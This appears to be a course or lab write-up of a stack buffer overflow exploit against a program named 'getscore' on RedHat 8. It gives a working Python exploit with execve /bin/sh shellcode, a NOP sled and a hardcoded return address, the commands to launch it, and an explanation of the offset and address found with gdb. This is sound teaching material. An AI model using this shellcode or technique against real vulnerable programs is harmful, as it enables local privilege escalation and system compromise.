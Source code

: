 Exploit:

```python
#!/usr/bin/python

# exec /bin/sh
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# Before starting to overwrite the first byte of $eip, there are 138 bytes

def prep_buffer(addr_buffer):
    buf = "\x90" * 69 # 138/2 = 69; this way, first half of buffer will be NOP
    buf += shellcode # len(shellcode) = 25 
    # 69 + 25 = 94; and before overwriting $eip there are 138 bytes
    # 138 - 94 = 44
    buf += 'A' * 44 # 44 bytes more to fill up the buffer 
    buf += addr_buffer # address that will be put on $eip
    return buf

if __name__ == '__main__':
    addr_buffer = '\xac\xf8\xff\xbf' # $esp - 100
    buf = prep_buffer(addr_buffer)
    print buf
```

Run:
 
```
EGG=`./pythonexploit1.py`
```

Run:

```
./getscore a $EGG
```

### Exploit Explanation

RedHat 8 does not use ASLR by default when compiling with gcc. Therefore, we can
predict were $esp will point to by running it the first time and looking its value
when the user input is read.

Playing with different lengths of inputs, we can see that just before overriding the
first byte of $eip, were are able to fit 138 bytes. The four bytes entered after
those 138 bytes will be stored in $eip.

To exploit this, the 138 bytes will contain the NOP sled, the shellcode, and extra
bytes ("\x41" in this case). We can choose the NOP sled to be half the size of the
buffer (138/2 = 69). Therefore, the first 69 bytes of the buffer are "\x90".

Then, because the shellcode is 25 bytes long, that leaves us with 138 - 69 - 25 = 44
bytes to fill with "\x41" bytes.

Once the buffer is 138 bytes long, we also concatenate the address that we want to be
placed on $eip, which has to point anywhere in the NOP sled. Playing with gdb,
I noticed that 0xbffff8ac was a good candidate. It was the value of $esp - 100.
Therefore, the last four bytes of the exploit are “\xac\xf8\xff\xbf”.
